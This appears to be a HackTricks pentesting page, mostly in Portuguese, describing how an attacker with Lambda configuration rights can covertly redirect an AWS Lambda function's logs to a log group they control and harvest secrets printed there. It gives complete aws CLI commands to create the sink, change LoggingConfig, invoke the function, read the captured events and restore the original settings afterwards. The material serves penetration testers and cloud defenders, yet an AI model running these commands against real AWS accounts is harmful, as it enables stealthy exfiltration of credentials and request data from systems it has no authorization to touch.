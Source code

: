 # AWS Lambda – Log Siphon via LoggingConfig.LogGroup Redirection

{{#include ../../../../banners/hacktricks-training.md}}

Abuse os controles avançados de logging `lambda:UpdateFunctionConfiguration` para redirecionar os logs de uma função para um log group do CloudWatch Logs escolhido pelo atacante. Isso funciona sem alterar o código ou a execution role (a maioria das roles do Lambda já inclui `logs:CreateLogGroup/CreateLogStream/PutLogEvents` via `AWSLambdaBasicExecutionRole`). Se a função imprimir segredos/corpos de requisição ou travar com stack traces, você pode coletá-los do novo log group.

## Required permissions
- lambda:UpdateFunctionConfiguration
- lambda:GetFunctionConfiguration
- lambda:InvokeFunction (ou contar com triggers existentes)
- logs:CreateLogGroup (frequentemente não necessário se a role da função já tiver)
- logs:FilterLogEvents (para ler os eventos)

## Steps
1) Crie um log group de destino
```
aws logs create-log-group --log-group-name "/aws/hacktricks/ht-log-sink" --region us-east-1 || true
```
2) Redirecionar os logs da função alvo
```
aws lambda update-function-configuration \
--function-name <TARGET_FN> \
--logging-config LogGroup=/aws/hacktricks/ht-log-sink,LogFormat=JSON,ApplicationLogLevel=DEBUG \
--region us-east-1
```
Aguarde até que `LastUpdateStatus` se torne `Successful`:
```
aws lambda get-function-configuration --function-name <TARGET_FN> \
--query LastUpdateStatus --output text
```
3) Invocar e ler do sink
```
aws lambda invoke --function-name <TARGET_FN> /tmp/out.json --payload '{"ht":"log"}' --region us-east-1 >/dev/null
sleep 5
aws logs filter-log-events --log-group-name "/aws/hacktricks/ht-log-sink" --limit 50 --region us-east-1 --query 'events[].message' --output text
```
## Impacto
- Redirecionar sigilosamente todos os logs de aplicação/sistema para um log group que você controla, contornando a expectativa de que os logs só apareçam em `/aws/lambda/<fn>`.
- Exfiltrate dados sensíveis impressos pela função ou expostos em erros.

## Limpeza
```
aws lambda update-function-configuration --function-name <TARGET_FN> \
--logging-config LogGroup=/aws/lambda/<TARGET_FN>,LogFormat=Text,ApplicationLogLevel=INFO \
--region us-east-1 || true
```
## Notas
- Os controles de logging fazem parte do `LoggingConfig` do Lambda (LogGroup, LogFormat, ApplicationLogLevel, SystemLogLevel).
- Por padrão, o Lambda envia logs para `/aws/lambda/<function>`, mas você pode apontar para qualquer nome de log group; o Lambda (ou a função de execução) irá criá-lo se permitido.

{{#include ../../../../banners/hacktricks-training.md}}

